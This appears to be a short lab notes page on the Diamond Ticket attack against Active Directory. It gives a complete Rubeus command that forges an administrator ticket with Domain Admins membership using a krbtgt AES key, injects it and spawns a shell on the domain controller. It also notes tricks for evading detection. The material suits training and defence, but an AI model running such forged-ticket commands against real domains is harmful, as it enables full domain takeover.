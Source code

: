# 💎 Diamond Ticket attack

We can simply use the following Rubeus command to execute the attack. Note that the command needs to be run from an elevated shell (Run as administrator). We take the usual OPSEC care of using Loader and ArgSplit to encode the arguments "diamond"

```
C:\AD\Tools\Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This will spawn a shell, now we can access the DC

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/diamond-ticket" %}
